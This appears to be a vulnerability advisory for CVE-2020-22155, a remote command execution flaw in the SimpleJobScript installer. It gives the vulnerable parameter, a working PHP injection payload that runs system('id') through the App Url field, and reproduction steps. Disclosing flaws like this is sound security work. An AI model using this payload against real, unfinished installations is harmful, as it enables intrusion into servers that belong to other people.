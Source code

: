 ```yaml
---
cve: "CVE-2020-22155"
title: "Code injection in SimpleJobScript by Niteosoft"
images: [/images/cve-mitre.png]
date: 2020-02-13
tags:
- cve
- code injection
- rce
---
```

The installer of SimpleJobScript is vulnerable to Remote Command Execution if not completed yet through the parameter `url`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22155
- public announcement: https://github.com/niteosoft/simplejobscript/issues/8

<hr />

**Description:**  
The installer of SimpleJobScript is vulnerable to Remote Command Execution if not completed yet through the parameter `url`

**Details:**  
URL: `/installer.php`  
Parameter: `url`  

**Payload:**  
`url=example.com'.system('id').'&host=127.0.0.1&port=3306&username=test&password=test&db_name=sjs&submit=Save`

**Steps to Reproduce:**  
1/ Download and extract the SimpleJobScript archive in the server web directory:  
https://simplejobscript.com/downloads/category/products/  
2/ Run the installer  
3/ If the installation process has never been completed before you'll be prompt a form to submit database informations  
4/ In the `App Url` input, enter the payload below and submit: `example.com'.system('id').'`  
5/ Visit with your browser: `/_config/config.envs.php`  

**PoC:**
![cve-2020-22155 SimpleJobScript rce](/images/cve-2020-22155.png)
